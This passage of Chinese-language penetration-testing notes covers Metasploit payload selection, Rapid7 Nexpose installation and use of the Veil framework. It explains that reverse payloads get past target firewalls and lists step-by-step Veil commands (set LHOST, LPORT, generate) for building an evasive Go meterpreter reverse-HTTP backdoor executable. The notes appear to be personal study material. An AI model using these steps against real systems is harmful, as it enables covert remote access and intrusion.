 	use xxxx
	show options
	set rhost 10.200.1.5
	show payloads(payloads意思是可执行的代码片段)
	
- payloads有两类，一类是命名为bind_xxx的，是在目标机器上开启端口并与其通讯。reverse_xx的是在自己机器上开启端口，让远程机器与自己通讯。优点是不会被目标机器的防火墙拦截。
可以把自己的端口设置成80让远程机器再访问浏览器呢


### 4.3 nexpose
同样为rapid7开发的渗透工具，可以检测更大范围的漏洞，并且汇报给对应的人员

	安装
	1下载
	2service stop postgresql
	3赋予执行权限
	4执行安装

- 安装过程中，如果遇到不支持kali1，需要kali2的问题，需要升级lunix的/etc/lsb-release和/etc/os-release，先备份，修改自己的版本为kali2，安装完成后再恢复备份

- 安装后可以用来扫描所有漏洞，自动在rapid7上发现攻击方法，生成报告


### 4.4 Client side attack
apt-get install veil

### 4.5 veil用于给系统留后门

运行之后可以看到evasion模块
evasion模块命名一般为
语言名/payload名/rev

例子:
go/meterpreter/rev_http
- 带rev的意思是受害者连接本地

例子：使用veil留后门

运行后执行：

	list  #列出所有可用的工具
	use 1 #使用1 ecasion
	use 15 #使用15 go的http——rev
	ifconfig #查看kali的的ip
	set LHOST ${kali_ip}   
	set LPORT ${kali_port}
	set PROCESSORS 1 #使用的最小cpu数
	set SLEEP 6 #睡眠6秒

	# 然后生成backdoor:
	generate
	# 命名之后可以获得exe文件
